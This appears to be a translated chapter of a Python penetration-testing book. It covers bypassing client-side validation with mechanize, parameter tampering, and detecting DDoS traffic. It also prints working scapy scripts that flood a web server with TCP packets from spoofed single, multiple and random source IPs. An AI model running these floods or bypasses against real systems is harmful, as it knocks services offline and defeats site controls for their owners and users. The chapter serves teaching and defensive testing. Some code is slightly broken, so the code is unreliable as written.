





# 客户端验证和 DDoS 攻击

在上一章中，您学习了如何解析网页，以及如何从 HTML 页面中获取特定信息。在本章中，我们将讨论以下主题：

+   网页中的验证

+   验证类型

+   验证的渗透测试

+   DoS 攻击

+   DDoS 攻击

+   DDoS 的检测

# 引入客户端验证

通常，当您在 Web 浏览器中访问网页时，您会打开一个表单，填写表单并提交。在填写表单的过程中，某些字段可能有约束条件，例如用户名应该是唯一的；密码应该大于八个字符，并且这些字段不应为空。为此，使用了两种类型的验证，即客户端验证和服务器端验证。诸如 PHP 和 ASP.NET 之类的语言使用服务器端验证，接受输入参数并将其与服务器的数据库进行匹配。

在客户端验证中，验证是在客户端完成的。JavaScript 用于客户端验证。快速响应和易于实现使客户端验证在一定程度上具有益处。然而，频繁使用客户端验证为攻击者提供了一种攻击方式；服务器端验证比客户端验证更安全。普通用户可以看到在 Web 浏览器上发生了什么，但黑客可以看到在 Web 浏览器之外可以做什么。以下图片说明了客户端验证和服务器端验证：


PHP 起到了中间层的作用。它将 HTML 页面连接到 SQL 服务器。

# 使用 Python 篡改客户端参数

最常用的两种方法 POST 和 GET 用于在 HTTP 协议中传递参数。如果网站使用 GET 方法，其传递参数将显示在 URL 中，您可以更改此参数并将其传递给 Web 服务器；这与 POST 方法相反，其中参数不显示在 URL 中。

在本节中，我们将使用一个带有简单 JavaScript 代码的虚拟网站，以及通过 POST 方法传递的参数，并托管在 Apache Web 服务器上。

让我们看一下`index.php`代码：

```py
<html>
<body background="wel.jpg">

  <h1>Leave your Comments </h1>
  <br>
  <form Name="sample" action="submit.php" onsubmit="return validateForm()" method="POST">

    <table-cellpadding="3" cellspacing="4" border="0">
      <tr>
        <td> <font size= 4><b>Your name:</b></font></td>
        <td><input type="text" name="name" rows="10" cols="50"/></td>
      </tr>
      <br><br>

      <tr valign= "top"> <th scope="row"  <p class="req">
        <b><font size= 4>Comments</font> </b> </p> </th>
        <td> <textarea class="formtext" tabindex="4" name="comment" 
         rows="10" cols="50"></textarea></td>
      </tr>

      <tr>
        <td> <input type="Submit" name="submit" value="Submit" /></td>
      </tr>
    </table>
  </form>
  <br>

  <font size= 4 ><a href="dis.php"> Old comments </a> 
  <SCRIPT LANGUAGE="JavaScript">

    <!-- Hide code from non-js browsers

    function validateForm()
    {
      formObj = document.sample;

      if((formObj.name.value.length<1) || 
       (formObj.name.value=="HACKER"))
       {
        alert("Enter your name");
        return false;
      }
      if(formObj.comment.value.length<1)
      {
        alert("Enter your comment.");
        return false;
      }
    }
    // end hiding -->

  </SCRIPT>
</body>
</html>
```

我希望您能理解 HTML、JavaScript 和 PHP 代码。上面的代码显示了一个示例表单，其中包括两个文本提交字段，名称和评论：

```py
if((formObj.name.value.length<1) || (formObj.name.value=="HACKER"))
{
alert("Enter your name");
return false;
}
if(formObj.comment.value.length<1)
{
alert("Enter your comment.");
return false;
}
```

上面的代码显示了验证。如果名称字段为空或填写为`HACKER`，则会显示一个警报框，如果评论字段为空，它将显示一个警报消息，您可以在其中输入您的评论，如下面的屏幕截图所示：


验证的警报框

因此，我们在这里的挑战是绕过验证并提交表单。您可能之前使用 Burp 套件做过这个，现在我们将使用 Python 来做这个。

在上一章中，您看到了 BeautifulSoup 工具；现在，我将使用一个名为*mechanize*的 Python 浏览器。mechanize 网络浏览器提供了在网页中获取表单的功能，并且还便于提交输入值。通过使用 mechanize，我们将绕过验证，如下面的代码所示：

```py
import mechanize
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
for form in br.forms():
  print form
```

我们所有的代码片段都以`import`语句开始。因此，在这里，我们正在导入`mechanize`模块。下一行创建了`mechanize`类的`br`对象。`url = raw_input("输入 URL ")`语句要求用户输入。接下来的五行代表了帮助重定向和`robots.txt`处理的浏览器选项。`br.open(url)`语句打开了我们给出的 URL。下一条语句打印了网页中的表单。现在，让我们检查`paratemp.py`程序的输出：


程序输出显示存在两个名称值。第一个是`name`，第二个是`comment`，将传递到操作页面。现在，我们已经收到了参数。让我们看看代码的其余部分：

```py
br.select_form(nr=0)
br.form['name'] = 'HACKER'
br.form['comment'] = ''
br.submit()
```

第一行用于选择表单。在我们的网站中，只有一个表单。`br.form['name'] = 'HACKER'`语句将值`HACKER`填入名称字段，下一行填写空评论，最后一行提交这些值。

现在，让我们从两个方面看输出。代码的输出如下：


表单提交

网站的输出显示在以下截图中：



验证绕过

前面的截图显示已经成功。

现在，你一定已经对如何绕过验证有了一个大致的了解。一般人认为通过`POST`方法发送的参数是安全的。然而，在前面的实验中，你已经看到对于内部网络中的普通用户来说是安全的。如果网站只被内部用户使用，那么客户端验证是一个不错的选择。然而，如果你在电子商务网站上使用客户端验证，那么你只是在邀请攻击者来利用你的网站。在接下来的话题中，你将看到客户端验证对业务的一些不良影响。

# 参数篡改对业务的影响

作为渗透测试人员，你经常需要分析源代码。如今，电子商务领域发展迅速。考虑一个电子商务网站的例子，如下截图所示：


网站示例

前面的截图显示`Nokia C7`的价格为`60`，`iPhone 3G`的价格为`600`。你不知道这些价格是来自数据库还是写在网页上。下面的截图显示了这两款手机的价格：



查看源代码

现在，让我们看一下源代码，如下截图所示：


看看前面截图中的矩形框。网页上写着价格为`60`，但从数据库中取出的价格是`600`。如果使用`GET`方法，可以通过 URL 篡改来改变价格`60`。价格可以被改成`6`而不是`60`。这将严重影响业务。在白盒测试中，客户会提供给你源代码，你可以分析这段代码，但在黑盒测试中，你必须使用攻击来进行测试。如果使用`POST`方法，可以使用 Mozilla 的附加组件 Tamper Data（[`addons.mozilla.org/en-US/firefox/addon/tamper-data/`](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)）进行参数篡改。你必须手动操作，所以不需要使用 Python 编程。

# 介绍 DoS 和 DDoS

在本节中，我们将讨论最致命的攻击之一，称为拒绝服务攻击。这种攻击的目的是消耗机器或网络资源，使其对预期用户不可用。一般来说，攻击者在其他攻击失败时使用这种攻击。这种攻击可以在数据链路、网络或应用层进行。通常，Web 服务器是黑客的目标。在 DoS 攻击中，攻击者向 Web 服务器发送大量请求，旨在消耗网络带宽和机器内存。在**分布式拒绝服务**（**DDoS**）攻击中，攻击者从不同的 IP 地址发送大量请求。为了进行 DDoS 攻击，攻击者可以使用特洛伦或 IP 欺骗。在本节中，我们将进行各种实验来完成我们的报告。

# 单个 IP，单个端口

在这次攻击中，我们使用单个 IP（可能是伪造的）和单个源端口号向 Web 服务器发送大量数据包。这是一种非常低级的 DoS 攻击，将测试 Web 服务器的请求处理能力。

以下是`sisp.py`的代码：

```py
from scapy.all import *
src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")
srcport = int(raw_input("Enter the Source Port "))
i=1
while True: 
  IP1 = IP(src=src, dst=target)
  TCP1 = TCP(sport=srcport, dport=80)
  pkt = IP1 / TCP1
  send(pkt,inter= .001)
  print "packet sent ", i
  i=i+1
```

我用 scapy 编写了这段代码，希望你熟悉。上面的代码要求三样东西：源 IP 地址、目标 IP 地址和源端口地址。

让我们检查攻击者机器上的输出：


单个 IP，单个端口

我使用了伪造的 IP 来隐藏我的身份。你需要发送大量数据包来检查 Web 服务器的行为。在攻击期间，尝试打开托管在 Web 服务器上的网站。无论是否成功，都要把你的发现写入报告。

让我们检查服务器端的输出：


服务器上的 Wireshark 输出

这个输出显示我们的数据包成功发送到了服务器。用不同的序列号重复这个程序。

# 单个 IP，多个端口

现在，在这次攻击中，我们使用单个 IP 地址但是多个端口。

在这里，我写了`simp.py`程序的代码：

```py
from scapy.all import *

src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")

i=1
while True: 
  for srcport in range(1,65535): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    i=i+1
```

我在端口上使用了`for`循环。让我们检查攻击者的输出：



来自攻击者机器的数据包

上面的截图显示数据包成功发送。现在，检查目标机器上的输出：


出现在目标机器上的数据包

在上面的截图中，矩形框显示了端口号。我会让你创建单个端口的多个 IP 地址。

# 多个 IP，多个端口

在这一部分，我们将讨论多个 IP 和多个端口地址。在这次攻击中，我们使用不同的 IP 发送数据包到目标。多个 IP 代表伪造的 IP。下面的程序将从伪造的 IP 发送大量数据包：

```py
import random
from scapy.all import *
target = raw_input("Enter the Target IP ")

i=1
while True: 
  a = str(random.randint(1,254))
  b = str(random.randint(1,254))
  c = str(random.randint(1,254))
  d = str(random.randint(1,254))
  dot = "."
  src = a+dot+b+dot+c+dot+d
  print src
  st = random.randint(1,1000)
  en = random.randint(1000,65535)
  loop_break = 0
  for srcport in range(st,en): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    loop_break = loop_break+1
    i=i+1
    if loop_break ==50 :
      break
```

在上面的代码中，我们使用`a`、`b`、`c`和`d`变量来存储四个随机字符串，范围从`1`到`254`。`src`变量存储随机 IP 地址。在这里，我们使用`loop_break`变量来在`50`个数据包后中断`for`循环。这意味着 50 个数据包来自一个 IP，而其余的代码和之前的一样。

让我们检查`mimp.py`程序的输出：



多个 IP，多个端口

在上面的截图中，你可以看到在第 50 个数据包后，IP 地址发生了变化。

让我们检查目标机器上的输出：


目标机器上 Wireshark 的输出

使用多台机器执行这段代码。在上面的截图中，你可以看到机器回复了源 IP。这种类型的攻击很难检测，因为很难区分数据包是来自有效主机还是伪造主机。

# DDoS 攻击检测

当我攻读工程硕士学位时，我和朋友一起研究 DDoS 攻击。这是一种非常严重的攻击，很难检测，几乎不可能猜测流量是来自伪造主机还是真实主机。在 DoS 攻击中，流量只来自一个来源，所以我们可以阻止那个特定的主机。基于某些假设，我们可以制定规则来检测 DDoS 攻击。如果 Web 服务器只运行包含端口 80 的流量，那就应该允许。现在，让我们来看一个非常简单的检测 DDoS 攻击的代码。程序的名字是`DDOS_detect1.py`：

```py
import socket
import struct
from datetime import datetime
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 8)
dict = {}
file_txt = open("dos.txt",'a')
file_txt.writelines("**********")
t1= str(datetime.now())
file_txt.writelines(t1)
file_txt.writelines("**********")
file_txt.writelines("n")
print "Detection Start ......."
D_val =10
D_val1 = D_val+10
while True:

  pkt  = s.recvfrom(2048)
  ipheader = pkt[0][14:34]
  ip_hdr = struct.unpack("!8sB3s4s4s",ipheader)
  IP = socket.inet_ntoa(ip_hdr[3])
  print "Source IP", IP
  if dict.has_key(IP):
    dict[IP]=dict[IP]+1
    print dict[IP]
    if(dict[IP]>D_val) and (dict[IP]<D_val1) :

      line = "DDOS Detected "
      file_txt.writelines(line)
      file_txt.writelines(IP)
      file_txt.writelines("n")

  else:
  dict[IP]=1
```

在第三章中，*嗅探和渗透测试*，您了解了嗅探器。在前面的代码中，我们使用嗅探器获取数据包的源 IP 地址。`file_txt = open("dos.txt",'a')`语句以追加模式打开文件，这个`dos.txt`文件用作检测 DDoS 攻击的日志文件。每当程序运行时，`file_txt.writelines(t1)`语句会写入当前时间。`D_val =10`变量只是为了演示程序而假设的。这个假设是通过查看来自特定 IP 的点击统计数据得出的。考虑一个教程网站的情况。来自学校和学院的 IP 的点击量会更多。如果来自新 IP 的请求数量很大，那么可能是 DoS 的情况。如果来自一个 IP 的入站数据包计数超过了`D_val`变量，那么该 IP 被认为是 DDoS 攻击的责任。`D_val1`变量将在代码中稍后使用以避免冗余。我希望在`if dict.has_key(IP):`语句之前您对代码很熟悉。这个语句将检查字典中是否存在键（IP 地址）。如果键存在于`dict`中，那么`dict[IP]=dict[IP]+1`语句将增加`dict[IP]`的值，这意味着`dict[IP]`包含来自特定 IP 的数据包计数。`if(dict[IP]>D_val)`和`(dict[IP]<D_val1)`：语句是检测和将结果写入`dos.txt`文件的标准；`if(dict[IP]>D_val)`检测入站数据包的计数是否超过了`D_val`的值。如果超过了，随后的语句将在获取新数据包后将 IP 写入`dos.txt`。为了避免冗余，使用了`(dict[IP]<D_val1)`语句。接下来的语句将在`dos.txt`文件中写入结果。

在服务器上运行程序，并在攻击者的机器上运行`mimp.py`。

以下屏幕截图显示了`dos.txt`文件。看看那个文件。它写了一个 IP 九次，就像我们提到的`D_val1 = D_val+10`。您可以更改`D_val`的值来设置特定 IP 发出的请求次数。这取决于网站的旧统计数据。我希望前面的代码对研究目的有用：



检测 DDoS 攻击

如果您是安全研究人员，前面的程序对您应该是有用的。您可以修改代码，使得只有包含端口 80 的数据包才会被允许。

# 总结

在本章中，我们学习了客户端验证以及如何绕过客户端验证。我们还了解了在哪些情况下客户端验证是一个不错的选择。我们已经学习了如何使用 Python 填写表单并发送参数，其中使用了 GET 方法。作为渗透测试人员，您应该知道参数篡改如何影响业务。本章介绍了四种 DoS 攻击类型。单个 IP 攻击属于 DoS 攻击类别，多个 IP 攻击属于 DDoS 攻击类别。这一部分不仅对渗透测试人员有帮助，对研究人员也有帮助。利用 Python DDoS 检测脚本，您可以修改代码并创建更大的代码，从而触发控制或减轻服务器上的 DDoS 攻击的操作。

在下一章中，您将学习 SQL 注入和**跨站脚本**攻击（**XSS**）。您将学习如何利用 Python 进行 SQL 注入测试。您还将学习如何使用 Python 脚本自动执行 XSS 攻击。
